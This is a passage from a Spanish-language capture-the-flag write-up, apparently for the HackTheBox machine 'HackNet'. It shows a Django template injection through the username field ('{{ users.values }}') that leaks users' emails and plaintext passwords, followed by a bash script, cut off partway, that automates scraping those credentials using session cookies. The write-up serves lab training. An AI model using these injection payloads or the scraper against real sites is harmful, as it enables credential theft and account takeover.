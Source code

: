 <img width="2552" height="1077" alt="image" src="https://github.com/user-attachments/assets/398c50a3-1662-4b3b-9235-247d728f53a2" />

* volvemos al explore e inspeccionamos la web para ver el comportamiento cuando damos like y consultamos los usuarios que han dado like al post

<img width="2552" height="1077" alt="image" src="https://github.com/user-attachments/assets/859611f3-17f1-4767-a1d8-f5c9bde4416f" />

* accedamos a `http://hacknet.htb/likes/22`

<img width="2552" height="1077" alt="image" src="https://github.com/user-attachments/assets/97328b27-0a4c-4424-a0f4-ad5a327d1026" />

* ahora veamos a revisar el codigo fuente

<img width="2552" height="1077" alt="image" src="https://github.com/user-attachments/assets/1af142b7-3a18-4635-97a9-b34b96b31167" />

* aqui podemos ver que la inyeccion funciona con el renderizado de nuestro usuario con el nombre `{{ users }}`, se puede observar que se trata de una lista de usuarios (QuerySet) y que cada elemento es un SocialUser-objeto. Ahora vamos obtiener los campos y valores de los objeto de la lista y para esto vamos a necesitar cambiar el nombre de nuestro usuario por `{{ users.values }}`

<img width="2552" height="1077" alt="image" src="https://github.com/user-attachments/assets/d4de55ef-b097-4d1e-8fdd-81e29154002a" />

* A continuacion, vamos a realizar la misma accion de antes; vamos a explore, abrimos el menú de desarrollo, le damos like a cualquier publicacion y consultamos los likes

<img width="2552" height="1077" alt="image" src="https://github.com/user-attachments/assets/5998b12b-9c37-41e3-afb6-2b5785963395" />

* accedemos al link `http://hacknet.htb/likes/10` y observamos el codigo fuente

<img width="2552" height="460" alt="image" src="https://github.com/user-attachments/assets/319aa52c-673c-4162-8fb0-af34dbd9cd8a" />


* aqui podemos ver como es posible extraer la informacion de los usuarios que han dado like al post, podemos ver correo, usuario y password en texto plano, asi que vamos a desarrollar un script para automatizar la extraccion de credenciales

```bash
#!/bin/bash

url="http://hacknet.htb"
headers='Cookie: csrftoken=8mTIHGXOfS1Ra6dnuauSopspqstSkHdG; sessionid=mlszszq7qqdh4eaanqkzaud2eznnux8r'
all_users_file="all_users.txt"
temp_file="temp_response.txt"

> "$all_users_file"

for i in {1..30}; do
    echo -ne "Procesando posts... [$i/30]\r"

    curl -s -H "$headers" "${url}/like/${i}" > /dev/null

    curl -s -H "$headers" "${url}/likes/${i}" -o "$temp_file"

    last_title=$(grep -o '<img [^>]*title="[^"]*"' "$temp_file" | tail -1 | sed 's/.*title="\([^"]*\)".*/\1/' | sed 's/&amp;/\&/g; s/&lt;/</g; s/&gt;/>/g; s/&quot;/"/g; s/&#x27;/\'"'"'/g')

    if [[ ! "$last_title" == *"QuerySet"* ]]; then
        curl -s -H "$headers" "${url}/like/${i}" > /dev/null
        curl -s -H "$headers" "${url}/likes/${i}" -o "$temp_file"
        last_title=$(grep -o '<img [^>]*title="[^"]*"' "$temp_file" | tail -1 | sed 's/.*title="\([^"]*\)".*/\1/' | sed 's/&amp;/\&/g; s/&lt;/</g; s/&gt;/>/g; s/&quot;/"/g; s/&#x27;/\'"'"'/g')
    fi

    emails=$(echo "$last_title" | grep -o "'email': '[^']*'" | sed "s/'email': '\([^']*\)'/\1/g")
```